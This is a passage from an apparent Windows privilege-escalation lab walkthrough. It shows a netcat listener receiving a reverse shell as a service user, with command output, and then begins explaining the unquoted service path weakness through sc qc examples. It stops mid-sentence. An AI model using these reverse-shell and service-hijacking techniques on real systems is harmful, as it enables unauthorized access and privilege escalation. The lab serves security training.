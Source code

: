 As a result, you'll get a reverse shell with svcusr1 privileges:

Kali
Linux
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
Go to svcusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.



## Unquoted Service Paths
When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by "C:\Program Files\RealVNC\VNC Server\vncserver.exe", followed by the given parameters:

Command Prompt
C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vncserver
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VNC Server
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
Remember: PowerShell has 'sc' as an alias to 'Set-Content', therefore you need to use 'sc.exe' to control services if you are in a PowerShell prompt.
Now let's look at another service without proper quotation:

Command Prompt
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
When the SCM tries to execute the associated binary, a problem arises. 
Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:
